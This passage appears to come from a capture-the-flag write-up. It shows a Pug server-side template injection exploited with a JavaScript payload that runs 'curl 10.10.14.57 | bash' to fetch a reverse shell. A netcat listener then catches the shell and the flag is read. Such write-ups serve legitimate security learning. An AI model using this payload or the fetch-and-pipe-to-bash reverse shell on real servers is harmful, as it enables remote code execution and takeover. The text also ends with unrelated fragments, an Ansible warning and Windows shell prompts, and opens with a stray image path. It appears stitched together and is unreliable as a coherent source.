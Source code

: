 ![A screenshot that shows the execution of pug ssti](/assets/img/stack-the-flags-2022/pugssti-template.png)

This means that we’re dealing with a `pug ssti`.  I’ll be using the following payload where I am hosting a bash reverse shell in my local webserver and piping into bash.

```js
#{function(){localLoad=global.process.mainModule.constructor._load;sh=localLoad("child_process").exec('curl 10.10.14.57 | bash')}()}
```

And I get a shell as john and grab the flag:

```bash
hcue@pjsk:/tmp » rlwrap nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.57] from (UNKNOWN) [10.129.228.37] 44176
can't access tty; job control turned off
$ id
$ cd ~
$ cat user.txt
STF22{g410f27d35f21325f47d83c375dedf32}
```


[WARNING]: provided hosts list is empty, only localhost is available. Note that
[xc: C:\Windows\system32]: whoami
[xc: C:\Windows\system32]: hostname